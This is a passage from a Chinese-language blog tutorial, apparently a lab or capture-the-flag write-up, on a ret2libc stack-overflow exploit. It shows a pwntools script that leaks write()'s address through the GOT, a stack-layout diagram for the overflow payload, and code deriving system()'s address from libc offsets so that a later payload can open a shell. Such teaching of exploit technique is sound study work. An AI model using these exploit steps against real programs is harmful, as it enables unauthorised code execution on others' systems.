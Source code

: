 print "[\*] begin to leak write_addr function address...\n"
p.send(payload)

write_addr = u32(p.recv(4))
print "[+] the write_addr function address is " + hex(write_addr)

p.interactive()</pre>

这一层的`payload`，由于`write`函数需要传递2个参数，一个为需要获取的`write.got.plt`地址，还有一个需要输出的长度这里为`4`，栈布局如下：

<pre>+---------------------+
|                     |
|                     |
|                     |
+---------------------+
|       A * 140       |
+---------------------+
|  write_plt address  |  <----+ overwrite return address
+---------------------+
|  vul_func address   |  <----+ exec vul_func until write exec finish
+---------------------+
|          1          |  <----+ junk (optional)
+---------------------+
|  write got address  |  <----+ write function first argument
+---------------------+
|          4          |  <----+ write function second argument
+---------------------+
|                     |
+---------------------+</pre>

这里为什么把`vul_func`的地址放置到`write`函数的返回地址处，是为了后续再次通过`vul_func`的溢出漏洞，构造获取shell的`payload2`，这个脚本中的payload目标只是为了获取内存中的`write`函数地址，方便后续获取`system`函数地址



运行后，成功获取到write内存的地址

![ret2libc]({{ '/images/201803/ret2libc_2_3.png' | prepend: site.baseurl }})

接着我们需要通过获取到的`write`的内存地址，去分别计算`system_addr`和`/bin/sh`的地址，并将程序的执行返回到`vul_func`，再次发送我们新的`payload`, 这里我们还需要通过链接的.so文件去计算调用函数之间的偏移，通过ldd可以查看我们的程序链接了那些库文件

![ret2libc]({{ '/images/201803/ret2libc_2_4.png' | prepend: site.baseurl }})

同样可以利用ELF来计算之间的偏移，例如已知`write`的函数地址可以计算出`system`的地址

	libc = ELF('/lib/i386-linux-gnu/libc.so.6')
	system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
	